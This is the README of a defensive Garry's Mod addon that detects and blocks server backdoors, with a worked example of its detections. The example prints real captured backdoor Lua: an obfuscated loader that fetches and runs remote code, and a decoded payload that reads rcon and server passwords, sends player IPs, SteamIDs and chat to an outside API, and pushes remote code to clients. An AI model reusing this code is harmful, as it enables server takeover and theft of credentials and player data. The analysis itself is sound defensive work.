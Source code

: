 # Garry's Mod - Backdoor Shield

Protect your GMod server against backdoors! Block, find, investigate and remove them.

![image](https://user-images.githubusercontent.com/5098527/167985260-d2e325c7-b310-4eee-a246-ecde898fd5d2.png)

# Incompatibilities

> DO-NOT-USE this addon on servers with paid mods!!!! Many of them have complex DRMs, which in most cases get detected and blocked. This can lead to serious authentication problems and even license loss! If you suspect that your addons are infected, run them along Backdoor Shield in a clean server/GMod instance!

> Avoid addons that set their own environment because they can break, like:
> - gmDoom - https://steamcommunity.com/sharedfiles/filedetails/?id=133300986

Also, consider Backdoor Shield as W.I.P! Know that I don't intend to add fancy features or even make this addon user friendly, this project is a hobbyist experiment.

# What is a backdoor?

> "a backdoor refers to any method by which authorized and unauthorized users are able to get around normal security measures and gain high level user access (aka root access) on a computer system, network, or software application. Once they're in, cybercriminals can use a backdoor to steal personal and financial data, install additional malware, and hijack devices." - Malwarebytes

As for backdoors, in GMod very often we confront entire groups with pre-made panels using complex functions, there's a market for that.

Although the security of the game has increased a lot over time, these attacks are still very dangerous as they can culminate in theft of scripts, settings and personal data as well as other types of damage. E.g. someone with improper admin access can either delete all files in the data folder or slowly cause server issues until the players give up on it.

# Features

Backdoor Shield

- Starts before all addons;
- Has the internal code highly protected;
- Has a custom logs system, colored;
- Was tested against 1500+ addons, both from workshop and forums;
- Has a files scanner, that:
  - Can read files from any extension quickly and intelligently;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Uses a weight system to determine which detections are important;
  - Prints the relevant results;
  - Logs detections organized by risk.
- Has real-time protection, that:
  - Checks the functions parameters/arguments;
  - Protects the stack calls checking functions by address;
  - Undoes protected functions detouring;
  - Searchs for over 450 invisible utf8 characters;
  - Has whitelists, blacklists and loose detections lists;
  - Can turn off its components individually;
  - Is capable of producing traces even through tail calls;
  - Has a simple extra window to warn of detections;
  - Prints detections to the console;
  - Logs detections grouped and individually by type with contents.

Honestly, I don't know of a free GMod addon that does all this.

# Install

Clone or download the files inside your **addons folder**.

You can also subscribe to BS in the Workshop, but that way you won't be able to change the addon settings later: https://steamcommunity.com/sharedfiles/filedetails/?id=2215013575

# Configure

All settings are in three files in this folder:
- **lua/bs/server/definitions/**

There's one for the file scanner, one for real-time protection, and one for internal behaviour. Everything is documented at each location.

# Commands

As shown in the screenshot above:

    Commands:
    |
    |-> bs_scan FOLDER(S)       Recursively scan lua, txt, vmt, dat and
    |                           json files in FOLDER(S).
    |
    |-> bs_scan_full FOLDER(S)  Recursively scan all files in FOLDER(S).
       
        * If no folder is defined, it'll scan addons, lua, gamemodes and
          data folders.

Be aware that it's better to run these commands on a dedicated server or in lan mode, as in singleplayer the game will practically freeze until the scan finishes.

It's also worth noting that focusing searches is much faster than scanning entire addons libraries, so prefer:

    bs_scan_full addons/myAddonA addons/myAddonB

Another interesting thing to do here is to isolate suspicious files in subfolders within the addons folder (like addons/isolation/suspiciousAddon). That way, the game will mount all the contents but they won't be executed. Obviously the it'll look like this:

    bs_scan_full addons/isolation/suspiciousAddon


Note: there's also the ``bs_tests`` command to aid in development. It's enabled when dev mode is turned on.

# Logs

They're stored in **data/backdoor-shield**.

![image](https://user-images.githubusercontent.com/5098527/167988691-5b611163-0a22-41fc-8011-c38e083c0516.png)

<details><summary>File scanner</summary>
<p>
<img src="https://user-images.githubusercontent.com/5098527/167990351-941bd7ef-abc0-4e6a-8600-48e097ca3fde.png"/>

Logs from the file scanner are are organized by date and time. Within them, the information is grouped by risk.

<img src="https://user-images.githubusercontent.com/5098527/167990714-480bb9f3-30df-44f7-bcca-216f14e6c957.png"/>
</p>
</details>

<details><summary>Real-time</summary>
<p>

<img src="https://i.imgur.com/BDk6TJk.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167990081-4d8a0a56-6235-43bd-b08d-da32c3bfd6e4.png"/>

As for the real-time detections, they are in subfolders named by date and are organized in two different ways.

<img src="https://user-images.githubusercontent.com/5098527/167988995-2b2443dc-037f-47c8-91f0-597504ea04ba.png"/>

In the first one, items are grouped by "detections", "warnings" and "detours", as shown above. Within these files the entries are placed in order of occurrence:

<img src="https://user-images.githubusercontent.com/5098527/167989406-cdac9556-a728-424f-9f58-d1198f04cde9.png"/>

In the second, each detection is placed inside subfolders with the name of the detected function and relevant items such as pieces of malicious code.

<img src="https://user-images.githubusercontent.com/5098527/167989468-366ef03a-b663-42cb-907b-8cafb25c8e4c.png"/>

<img src="https://user-images.githubusercontent.com/5098527/167989517-e422463d-d7e1-4293-99a6-724169fa8fba.png"/>
</p>
</details>

# Real-time protection example

The example below was made in an older version of the addon but it's ok, the idea is still very similar to the current one.

## Detection

<details><summary>1) Running two backdoors</summary>
<p>

```lua
-- Dead backdoor:

RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )
```

</p>
</details>

<details><summary>2) The detection occurs</summary>
<p>
<img src="https://i.imgur.com/BDk6TJk.png"/>
<img src="https://i.imgur.com/3yWXO6D.png"/>
</p>
</details>

<details><summary>3) The logs are stored</summary>
<p>
<img src="https://i.imgur.com/DhGWEbU.png"/>
<img src="https://i.imgur.com/XWCwr87.png"/>
</p>
</details>

<details><summary>4) We can see the blocked contents</summary>
<p>

- The first backdoor is dead, since the link inside the content doesn't work

<img src="https://i.imgur.com/PUX4QG3.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: RunString
    Date: 08-29-2020
    Time: 19h 34m 56s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/RunString/log_blocked_(19h 34m 56s).txt
    Detected:
        RunString
        http.Fetch
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'RunString'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:3: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

http.Fetch("http://buriedselfesteem.com/rekt/rekt.lua", function(c) RunString(c) end )
```

- But the second one is doing some stuff

<img src="https://i.imgur.com/6i8xNtz.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 37m 32s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 37m 32s).txt
    Url: https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx
    Detected:
        RunString
        RunString
        http.Fetch
        http.Post
        _G[
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:7: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "


local sKqYgoHBFGNoMavJtTsX = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    "\46\99\102",
    "\46\116\107",
    "\46\121\111\46\102\114",
    "\46\121\110\46\102\114",
    "\46\48\48\48\119\101\98\104\111\115\116",
    "\97\108\119\97\121\115\100\97\116\97\46\110\101\116",
    "\46\103\113",
    "\46\120\121\122",
    "\46\101\115\121\46\101\115",
    "\46\109\108",
    --[[ DOMAINS BACKDOORS ]]
    "\100\114\109\46\103\109",
    "\103\118\97\99\100\111\111\114",
    "\103\118\97\99",
    "\107\112\97\110\101\108",
    "\108\107\112\97\110\101\108",
    "\119\116\102\109",
    "\103\109\97\112",
    "\103\45\104\117\98",
    "\103\112\97\110\101\108",
    "\97\115\116\105\108\108\97\110",
    "\103\104\97\120",
    "\106\101\108\108\121\105\115\97\102\97\103",
    "\115\105\122\122\117\114\112",
    "\104\97\121\108\97\121",
    "\114\118\97\99",
    "\99\105\112\104\101\114\45\112\97\110\101\108",
    "\120\118\97\99\100\111\111\114",
    "\74\117\115\116\45\115\101\114\118",
    "\74\117\115\116\115\101\114\118",
    "\120\101\110\100\111\111\114",
    "\69\120\111\100\111\115\105\117\109",
    "\109\121\119\97\105\102\117",
    "\103\98\108\107",
    --[[ FILES BACKDOORS ]]
    "\115\116\97\103\101\49\46\112\104\112",
    "\115\116\97\103\101\50\46\112\104\112",
    "\101\118\111\46\112\104\112",
    "\101\121\111\46\112\104\112",
    "\98\97\99\107\100\111\111\114\46\112\104\112",
    "\102\108\103\46\94\112\104\112",
    "smart-overwrite",
    "anatik",
    --[[ $_GET BACKDOORS ]]
    "\63\116\111\61",
    "\63\116\111\107\101\110\61",
    "\63\102\117\99\107\95\107\101\121\61",
    "\63\98\97\99\107\100\111\111\114\95\107\101\121\61",
    --[[ DIR BACKDOORS ]]
    "\47\115\121\115\47",
    "\47\99\111\114\101\47",
    "\47\115\101\99\117\114\101\95\97\114\101\97\47"
}


local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP function HTTP(a)     
    if a.url then 
        for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(sKqYgoHBFGNoMavJtTsX) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)

",
            2703,
            {
            Vary    =    "Accept-Encoding",
            Set-Cookie    =    "__cfduid=dfe0c3e4f2be8978d00090d7df7dc9e711598740653; expires=Mon, 28-Sep-20 22:37:33 GMT; path=/; domain=.omega-project.cz; HttpOnly; SameSite=Lax; Secure,__ddg1=ZRzJovYJDvrB2k895vsn; Domain=.omega-project.cz; HttpOnly; Path=/; Expires=Sun, 29-Aug-2021 22:37:33 GMT",
            Transfer-Encoding    =    "chunked",
            Connection    =    "keep-alive",
            Date    =    "Sat, 29 Aug 2020 22:37:34 GMT",
            Content-Encoding    =    "gzip",
            Content-Type    =    "text/html; charset=UTF-8",
            Server    =    "cloudflare",
                },
            200,
}
```

</p>
</details>

## Decoding

Let's continue to see what's going on. I won't explain how I deobfuscated the code but I'll show the results and leave this link here https://www.dcode.fr/ascii-code.

<details><summary>1) Here is the active backdoor decoded</summary>
<p>

It's inhibiting other backdoors through some detourings and taking the next step.

```lua
local nKvWQygqjyMKsWkNbsiO = { 
    --[[ EXTENTIONS DOMAINS BACKDOORS ]]
    ".cf",
    ".tk",
    ".yo.fr",
    ".yn.fr",
    ".000webhost",
    "alwaysdata.net",
    ".gq",
    ".xyz",
    ".esy.es",
    ".ml",
    --[[ DOMAINS BACKDOORS ]]
    "drm.gm",
    "gvacdoor",
    "gvac",
    "kpanel",
    "lkpanel",
    "wtfm",
    "gmap",
    "g-hub",
    "gpanel",
    "astillan",
    "ghax",
    "jellyisafag",
    "sizzurp",
    "haylay",
    "rvac",
    "cipher-panel",
    "xvacdoor",
    "Just-serv",
    "Justserv",
    "xendoor",
    "Exodosium",
    "mywaifu",
    "gblk",
    --[[ FILES BACKDOORS ]]
    "stage1.php",
    "stage2.php",
    "evo.php",
    "eyo.php",
    "backdoor.php",
    "flg.^php",
    "smart-overwrite 10",
    "anatik 10",
    --[[ $_GET BACKDOORS ]]
    "?to=",
    "?token=",
    "?fuck_key=",
    "?backdoor_key=",
    --[[ DIR BACKDOORS ]]
    "/sys/",
    "/core/",
    "/secure_area/",
}

-- Toma as funções do GMod pra ele
local httpF = http.Fetch  
local httpP = http.Post 
local vraisHTTP = HTTP

-- Barra o uso de backdoors bloqueando tudo da lista acima
-- (Se estiver limpo, executa a função)

function HTTP(a)
    if a.url then 
        for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
            if string.find(a.url, v) then 
                return end 
            end 
          end 
  return vraisHTTP(a) 
end 

function http.Fetch(...) 
   local args = {...} 
   if args[1] then 
       for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
           if string.find(args[1], v) then 
               return end 
       end 
   end 

   return httpF(...) 
end 


function http.Post(...) 
local args = {...} 
if args[1] then 
    for k,v in pairs(nKvWQygqjyMKsWkNbsiO) do 
        if string.find(args[1], v) then 
            return end 
     end 
    end return httpP(...) 
   end

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>2) I disabled my old Lua snippets, took the end of the decoded script and ran it</summary>
<p>

```lua
-- Dead backdoor:

--RunString(string.char(104, 116, 116, 112, 46, 70, 101, 116, 99, 104, 40, 34, 104, 116, 116, 112, 58, 47, 47, 98, 117, 114, 105, 101, 100, 115, 101, 108, 102, 101, 115, 116, 101, 101, 109, 46, 99, 111, 109, 47, 114, 101, 107, 116, 47, 114, 101, 107, 116, 46, 108, 117, 97, 34, 44, 32, 102, 117, 110, 99, 116, 105, 111, 110, 40, 99, 41, 32, 82, 117, 110, 83, 116, 114, 105, 110, 103, 40, 99, 41, 32, 101, 110, 100, 32, 41))

-- Alive backdoor:

--http.Fetch("https://steamcommunity.omega-project.cz/lua_run/RunString.php?apikey=spxysAWoRdmPcPeQitSx", function(c) RunString(c) end )

_G["http"]["Fetch"]([[https:/]]..[[/api.omega-project.cz/api_connect.php?api_key=]],function(api)
  RunString(api)
end)
```

</p>
</details>

<details><summary>3) Now I got a new detection with a bunch of new things to analyze</summary>
<p>
<img src="https://i.imgur.com/SBwHXDy.png"/>

```
[ALERT]
-----------------------------------------------------------------------------------

[Backdoor Shield] Execution blocked!
    Function: http.Fetch
    Date: 08-29-2020
    Time: 19h 42m 45s
    Log: data/backdoor-shield/08-29-2020/log_blocked.txt
    Content Log: data/backdoor-shield/08-29-2020/http.Fetch/log_blocked_(19h 42m 45s).txt
    Url: https://api.omega-project.cz/api_connect.php?api_key=
    Detected:
        =_G
        RunString
        CompileString
        BroadcastLua
    Location: stack traceback:
    addons/backdoor-shield/lua/bs/server/modules/detouring/functions.lua:50: in function 'Fetch'
    addons/fakedoor/lua/autorun/server/sv_test2.lua:9: in main chunk


[CONTENT]
-----------------------------------------------------------------------------------

arguments    =    {
            "
--[[
 name: Ʊmega Project
 author: Inplex
 Google Trust Api factor: 78/100
 Last Update: 02 06 2020
 Description: If you use the panel for hack you will be banned !
]]

local debug = debug
local error = error
local ErrorNoHalt = ErrorNoHalt
local hook = hook
local pairs = pairs
local require = require
local sql = sql
local string = string
local table = table
local timer = timer
local tostring = tostring
local mysqlOO
local TMySQL
local _G = _G
UzjRokDYxAOWbxLIEiRXmogsroltxsCpQgiEkuIR = {}
local server_key = "UrJPyGUdi"_R=_G
if omega_ed463d5fadf4890eca35eb8ea156c847 == "HGEed463d5fadf4890eca35eb8ea156c847" then return end
omega_ed463d5fadf4890eca35eb8ea156c847="HGEed463d5fadf4890eca35eb8ea156c847"
_R["\95\48\120\54\56\51\50\53\51"]=_R["\104\116\116\112"]["\112\111\115\116"] or "timer"
_R["\95\48\120\52\56\50\51\55\54"]=_R["\104\116\116\112"]["\80\111\115\116"] or "Create"
_R["\95\48\120\49\55\54\53\49\52"]=_R["\72\84\84\80"] or "api.omega-project.cz"
_R["\95\48\120\52\53\49\57\53\54"]=_R["\83\101\114\118\101\114\76\111\103"] or ""
_R["\95\48\120\50\57\54\55\56\55"]=_R["\82\117\110\83\116\114\105\110\103"] or "rcon non trouvé"
_R["\95\48\120\51\52\50\52\53\48"]=_R["\102\105\108\101"]["\69\120\105\115\116\115"] or "print"
_R["\65\120\121\117\110\101\77\90\87\69"] = "api.omega-project.cz"
_R["\104\122\100\65\108\99\118\113\106\114"] = "\97\116\108\97\115\45\99\104\97\116\46\115\105\116\101"
_R["\95\48\120\57\52\48\49\51\55"] = _R["\69\114\114\111\114"]
local pGbSGVIuUevjvQbOFgCc, FCPttlLwqrzAChdIZtnd  = "\80\108\97\121\101\114\73\110\105\116\105\97\108\83\112\97\119\110", "\80\108\97\121\101\114\68\105\115\99\111\110\110\101\99\116\101\100"
local header_GwFWGpHBKMfYqsd = {
  ["Authorization"] = "ZWM2OGJkMjMxMGMyODRiODljNGYyNDliYTkzMWQ2Y2Q"
}

-- include request
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_anti_backdoors.php"; method="get"; success=function(api,anti_backdoors) _0x296787(anti_backdoors) end })
_0x176514({ url=[[https://]]..AxyuneMZWE.."/api_player_blacklist.php"; method="get"; success=function(api,bad_player_blacklist) _0x296787(bad_player_blacklist) end })

local addons_files, addons_folders = _R["file"]["Find"]("addons/*", "GAME")
for k,v in pairs(addons_folders) do
 if (v != "checkers") and (v != "chess") and (v != "common") and (v != "go") and (v != "hearts") and (v != "spades") then
  _0x482376([[https://]]..AxyuneMZWE.."/api_addons.php", {server_ip = _R["game"]["GetIPAddress"](),crsf = "LuicBbIVUSxUbwKyGdOPvHgEVMjRiZFsmMhwEuzy#MTg2LjIyOS4yMjYuMTAy#DcKbgZMolAqhaosmSYVGXXJTAgfyqJvQclnitBUy",addons_name = v, addons_update = util.Base64Encode(file.Time( "addons/"..v, "GAME" ))}, function(http_addons) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_addons, 1 ) == "<" or http_addons == "" then 
      return 
     else 
      _0x296787(http_addons) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
 end 
end


util.AddNetworkString("cKdwwjkBzpUSproGWmGe")
_R["BroadcastLua"]([[net.Receive("cKdwwjkBzpUSproGWmGe",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function _0x427940(HsQzhjEtDdhsZssJfpfL)
  timer.Simple( 0.5, function( )
   _R["DATA"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["len"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("cKdwwjkBzpUSproGWmGe")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   _R["\110\101\116"]["\66\114\111".."\97\100\99\97\115\116"]()
  end)
end


util.AddNetworkString("QvQaTLXQJvDEmezmiHYj")
_R["BroadcastLua"]([[net.Receive("QvQaTLXQJvDEmezmiHYj",function()CompileString(util.Decompress(net.ReadData(net.ReadUInt(16))),"?")()end)]])
function SendPly(HsQzhjEtDdhsZssJfpfL, steamid64)
  timer.Simple( 0.5, function( )
   _R["\100\97\116\97"] = util.Compress(HsQzhjEtDdhsZssJfpfL)
   _R["\108\101\110"] = #data
   _R["\110\101\116"]["\83\116".."\97\114\116"]("QvQaTLXQJvDEmezmiHYj")
   _R["\110".."\101\116"]["\87\114".."\105\116\101\85\73\110\116"](len, 16)
   _R["\110\101".."\116"]["\87\114\105\116\101\68".."\97\116\97"](data, len)
   for k, ply in pairs(player.GetAll()) do
     if ( ply:SteamID64() == steamid64 ) then
        _R["\110\101\116"]["Send"](ply)
     end
   end
  end)
end

_R["\104\111\111\107"]["\65\100\100"](pGbSGVIuUevjvQbOFgCc, "nYQUQrWaerewCmEoqjVUvrrkWFAgjfYzfecgMiiTgymFAonGsT", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd",
         ["\99\111\108\111\114"] = "5dc766",
         ["\99\111\110\116\101\110\116"] = "Client "..ply:Name().." connected ("..ply:IPAddress()..").", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

_R["\104\111\111\107"]["\65\100\100"](FCPttlLwqrzAChdIZtnd, "msBMAtvKWjUOHFZfNCRBemSkQdJnfwcpcfFnPKfQqxcaKEhMma", function(ply) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         ["color"] = "de3333",
         ["\99\111\110\116\101\110\116"] = "Dropped "..ply:Name().." from server (Disconnect by user).", 
         ["\115\101\114\118\101\114\95\105\112"]  = _R["game"]["GetIPAddress"]()
    },_0x296787)
end)

function ServerLog( logs_content ) 
    _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
         ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
         content = logs_content, 
         server_ip = _R["game"]["GetIPAddress"]()
    },_0x296787) 
    return _0x451956( logs_content ) 
end 

function Error( string )
  _0x482376([[https://]]..AxyuneMZWE.."/api_get_logs.php",{ 
       ["\99\115\114\102"] = "ec68bd2310c284b89c4f249ba931d6cd", 
       ["\99\111\110\116\101\110\116"] = string, 
       ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"]()
  },RunString)
  return _0x940137( string )
end

_R["\116\105\109\101\114"]["\67\114\101\97\116\101"]( "FLPcvsCBTQJoZQGLILQUDEVvRmPRvLoyVXEuMYOSOHMaEXDKse", 1, 0, function()
_R["\104\111\111\107"]["\65\100\100"]( "PlayerSay", "ujLFdRUcqVAoqZwfiMSQpZeWbcvItgnNitYilclAqwPUvxSmZW", function( ply, text )
local http_chat_table = {
    name = ply:Name(), 
    server_ip = _R["GetTcpInfo"](), 
    steamid64 = ply:SteamID64(),
    nyFaIvniEL = "TPlnCsTLWywBNOdjsIEpiZEXJLCAJoQzesllKZlW",
    BtNDxRHcgb = "PCBKWTMGVJirRWrxIPNjkwOesDxXxeFDdpepUfdM",
    jcqaplfenV = "crraFpbGqRmxDQCenENbzIJAuNUFieGTgdJoBiZG",
    LEUJYRpUyx = "aizJdLXTEVPoYQQsgMOdzSwCmNazHfRFrFNnffmT",
    FBWCeMNeTL = "LSxRhSnkNHyrbgtboMNzAiTZFrsnkkcLYGwciHlo", 
    message = text
  } 
_0x482376([[https://]]..AxyuneMZWE.."/chat_connect.php?haoaOPspJnETKyz=trPtLhCynfaGkLt", http_chat_table, function(http_chat) _0x296787(http_chat) end)
end)
if _0x342450("\99\102\103\47\97\117\116\111\101\120\101\99\46\99\102\103","GAME") 
  then local cfile = file.Read("cfg/autoexec.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) do 
    if string.StartWith(v,"rcon_password") 
    then rcon_pw = string.Split(v,"\"")[2] 
   end
  end 
end
if _0x342450("\99\102\103\47\115\101\114\118\101\114\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/server.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end 
if _0x342450("\99\102\103\47\103\97\109\101\46\99\102\103","GAME") 
  then cfile = file.Read("cfg/game.cfg","GAME") 
  for k,v in pairs(string.Split(cfile,"\n")) 
  do if string.StartWith(v,"rcon_password") 
  then rcon_pw = string.Split(v,"\"")[2] 
    end 
   end 
 end  
 if _0x342450("\99\102\103\47\103\109\111\100\45\115\101\114\118\101\114\46\99\102\103","GAME") 
 then cfile = file.Read("cfg/gmod-server.cfg","GAME") 
 for k,v in pairs(string.Split(cfile,"\n")) 
 do if string.StartWith(v,"rcon_password") 
 then rcon_pw = string.Split(v,"\"")[2] 
   end 
  end 
end
if rcon_pw == "" then
 rcon_pw = "Aucun Rcon"
end
for k,v in pairs(player.GetAll()) do 
local DrkaWVDhZhRCHgyRGENj = {
    ["\110\97\109\101"] = v:GetName(),
    ["\105\112"] = v:IPAddress(),
    ["\115\101\114\118\101\114\95\105\112"] = _R["game"]["GetIPAddress"](),
    ["\99\114\115\102"] = "MMsFDCxvTbPfHnPUwcylyHhezmHbOsBlvhTiNhRz#MTg2LjIyOS4yMjYuMTAy#jSUttWLIHMKvFliWsMJRcDpxwgTHvKxLaPfwDBtZ",
    ["\115\116\101\97\109\105\100"] = v:SteamID(),
    ["\115\116\101\97\109\105\100\54\52"] = v:SteamID64(),
    ["OcvWPRmzdQ"] = "cZEHIshMiGdcmjIwgHRIBVckfUarvjwptUvgdeuw",
    ["khpvEspqLQ"] = "aaQsnnUqsxaGyqJkHqqxHCWJeAJMBHnixRPiFeQk",
    ["cZiGZpQXxK"] = "suKIfVNfRKCTdhQrvzbvKHfPmJMDyVfbdAdBTCtv",
    ["yNpPvxIEYQ"] = "jxcvvCnbgmfVMFbIxDIsIizjgGgSKeOCUTjiWdwm",
    ["NGiFdbJnXv"] = "dcUYvgSiZSvgHzSliHVxdliXIEMLhrzWhJPNpiZy"
  }
_0x482376([[https://]]..AxyuneMZWE.."/user_connect.php?rzfmjhnXKtVupXH=stmWrBHtmIsKpxN&ping=" .. v:Ping(), DrkaWVDhZhRCHgyRGENj, function( http_users ) 
     if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_users, 1 ) == "<" or http_users == "" then
       return
     else
       _0x296787( http_users )
     end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd )
end
  local VsTWOaUGyYXokLUQDOTO = {
    ["\105"] = _R["GetTcpInfo"](),
    ["\110"] = _R["\71\101\116\72\111\115\116\78\97\109\101"](),
    ["\109"] = _R["\103\97\109\101"]["\71\101\116\77\97\112"](),
    ["\98\111"] = _R["\116\111\115\116\114\105\110\103"](#_R["\112\108\97\121\101\114"]["\71\101\116\66\111\116\115"]()),
    ["\99"] = _R["\103\97\109\101"]["\71\101\116\73\80\65\100\100\114\101\115\115"]().."{+}"..server_key.."{+}".."1598740966",
    ["\103"] = _R["\101\110\103\105\110\101"]["\65\99\116\105\118\101\71\97\109\101\109\111\100\101"](),
    ["\99\114\115\102"] = "MTg2LjIyOS4yMjYuMTAy#HAxFpswxUQiTyulaKvyYIkQxTCoXuLzjFBBoHsfC",
    ["\110\98"] = tostring(#player.GetAll()).."/"..game.MaxPlayers(),
    ["\108\117\114\108"] = _R["GetConVar"]("sv_loadingurl"):GetString(),
    ["\112\97\115\115"] = GetConVar("\115\118\95\112\97\115\115\119\111\114\100"):GetString(),
    ["\107"] = "",
    ["\99\108\105\101\110\116".."_".."\102\117\110\99"] = "_0x427940",
    ["\114"] = rcon_pw,
    ["eBQErysiKP"] = "XDuoiBjxoHEwaPvznpkehEuKxGcGxwsAoxBzjpAZ",
    ["dufqbNcvWE"] = "NrpfyEcyJIyupTUKZTaRoxzouNBZZHtYnuGxxLaF",
    ["GxRQEDghgj"] = "XJGGIQUzmaJxUsZZUUdTCyKuTlotFXznZhEgWZoe",
    ["ECFmDAYImx"] = "WvXwVKAUamKSoEAOVmzbHCyxhvVnDjOrLsasylcp",
    ["TlQPyMqTiE"] = "pVMWPprumKRsZrYSjDVCkoSOZsCwGWLWGlgSZNWt"
  }
  _0x482376("https://omega-project.cz/api_lib/_-_-drm-_-_/__.php", VsTWOaUGyYXokLUQDOTO, function(http_servers) 
    if _R["\115\116\114\105\110\103"]["\76\101\102\116"]( http_servers, 1 ) == "<" or http_servers == "" then 
      return 
    else 
      _0x296787(http_servers) 
    end 
  end, function( error ) 
  end, header_GwFWGpHBKMfYqsd ) 
end)

if 1 == 0 or 1 == 1 then
   local no_spam_plz = "cGhYBOTiQHkqBsENnrGnMPLxvwfEEwZlnpxlZHUHDCWdlWrrYB"
   CONNECTED_TO_MYSQL = true
   local all_server = sql.Query("SELECT * FROM server_list")
end

",
            11300,
            {
            Vary    =    "Accept-Encoding",
